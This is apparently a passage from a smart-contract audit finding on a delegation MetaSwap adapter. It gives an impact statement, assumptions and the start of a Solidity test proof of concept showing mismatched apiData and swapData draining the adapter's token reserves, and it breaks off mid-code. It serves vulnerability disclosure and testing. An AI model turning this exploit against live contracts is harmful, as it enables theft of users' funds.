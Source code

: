 **Impact:** Inconsistent payload can make unauthorized asset transfers that can potentially deplete token reserves of the adapter.

**Proof of Concept:** POC below makes some assumptions:
1. There is a token balance in Adapter
2. Adapter has given infinite allowance to Metaswap for this token (this is a reasonable assumption if this token was ever used by the adapter before)
3. The Metaswap swap purely relies on the swap payload to execute a swap without making additional checks (since this is out-of-scope, we assume this as a worst-case scenario). This is reflected in how we setup the `swap` function in `ExploitableMetaSwapMock`

Run the following POC

```solidity
/**
 * @title DelegationMetaSwapAdapterConsistencyExploitTest
 * @notice This test demonstrates how inconsistencies between API data and swap data can be exploited
 */
contract DelegationMetaSwapAdapterConsistencyExploitTest is DelegationMetaSwapAdapterBaseTest {
    BasicERC20 public tokenC;

    // Mock MetaSwap contract that allows us to demonstrate the issue
    ExploitableMetaSwapMock public exploitableMetaSwap;

    function setUp() public override {
        super.setUp();

        _setUpMockContractsWithCustomMetaSwap();
    }

    function test_tokenFromInconsistencyExploit() public {
        // This test demonstrates an exploit where:
        // - apiData declares tokenA as tokenFrom, but sends a small amount (appears safe)
        // - swapData references tokenB as tokenFrom, with a much larger amount
        // - MetaSwap will use the larger amount of tokenB, draining user's funds

        // Record initial balances
        uint256 vaultTokenABefore = tokenA.balanceOf(address(vault.deleGator));
        uint256 adapterTokenBBefore = tokenB.balanceOf(address(delegationMetaSwapAdapter));
        uint256 vaultTokenCBefore = tokenC.balanceOf(address(vault.deleGator));
        console.log("Initial balances:");
        console.log("TokenA:", vaultTokenABefore);
        console.log("TokenB:", adapterTokenBBefore);
        console.log("TokenC:", vaultTokenCBefore);

        // ======== THE EXPLOIT ========
        // We create inconsistent data where:
        // - apiData claims to swap a small amount of tokenA
        // - swapData actually references tokenB with a much larger amount

        // First, craft our malicious swap data
        uint256 amountToTransfer = 100; // amount of tokenA
        uint256 outputAmount = 1000;

        bytes memory exploitSwapData = _encodeExploitSwapData(
            IERC20(tokenB), // Real tokenFrom in swapData is tokenB (not tokenA)
            IERC20(tokenC), // tokenTo is tokenC
            amountToTransfer, //amount for tokenB
            outputAmount // Amount to receive
        );

        // Create malicious apiData that claims tokenA but references the swapData with tokenB
        bytes memory maliciousApiData = _encodeExploitApiData(
            "exploit-aggregator",
```